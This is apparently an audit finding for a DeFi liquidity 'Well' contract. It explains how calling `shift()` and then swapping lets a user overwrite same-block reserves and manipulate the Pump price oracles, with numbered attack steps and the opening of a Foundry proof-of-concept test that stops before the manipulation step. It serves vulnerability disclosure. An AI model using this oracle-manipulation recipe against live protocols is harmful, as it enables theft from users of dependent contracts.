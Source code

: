 However, this doesn't happen in the `shift()` and `sync()` functions, providing an opportunity for any user to manipulate the `reserves` in the current block before updating the `Pumps` with new manipulated `reserves` values.

### Impact

The `Pumps` (oracles) can be manipulated. This can affect any contract/protocol that utilizes `Pumps` as on-chain oracles.

### Proof of Concept

1.  A malicious user performs a `shift()` operation to update `reserve`s to desired amounts in the current block, thereby overriding the `reserves` from the previous block.
2.  The user performs `swapFrom()/swapTo()` operations to extract back the funds used in the `shift()` function. As a result, the attacker is not affected by any arbitration as pool `reserves` revert back to the original state.
3.  The `swapFrom()/swapTo()` operations trigger the `Pumps` update with invalid `reserves`, resulting in oracle manipulation.

Note: The `sync()` function can also manipulate `reserves` in the current block, but it's less useful than `shift()` from an attacker's perspective.

### PoC Tests

This test illustrates how to use `shift()` to manipulate `Pumps` data.

Create `test/pumps/Pump.Manipulation.t.sol` and run `forge test --match-test manipulatePump`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import {TestHelper, Call} from "../TestHelper.sol";
import {MultiFlowPump} from "src/pumps/MultiFlowPump.sol";
import {from18} from "test/pumps/PumpHelpers.sol";

contract PumpManipulationTest is TestHelper {
    MultiFlowPump pump;

    function setUp() public {
        pump = new MultiFlowPump(
            from18(0.5e18), // cap reserves if changed +/- 50% per block
            from18(0.5e18), // cap reserves if changed +/- 50% per block
            12, // block time
            from18(0.9e18) // ema alpha
        );

        Call[] memory _pumps = new Call[](1);
        _pumps[0].target = address(pump);
        _pumps[0].data = new bytes(0);

        setupWell(2,_pumps);
    }

    function test_manipulatePump() public prank(user) {
        uint256 amountIn = 1 * 1e18;

        // 1. equal swaps, reserves should be unchanged
        uint256 amountOut = well.swapFrom(tokens[0], tokens[1], amountIn, 0, user, type(uint256).max);
        well.swapFrom(tokens[1], tokens[0], amountOut, 0, user, type(uint256).max);

        uint256[] memory lastReserves = pump.readLastReserves(address(well));
        assertApproxEqAbs(lastReserves[0], 1000 * 1e18, 1);
        assertApproxEqAbs(lastReserves[1], 1000 * 1e18, 1);

```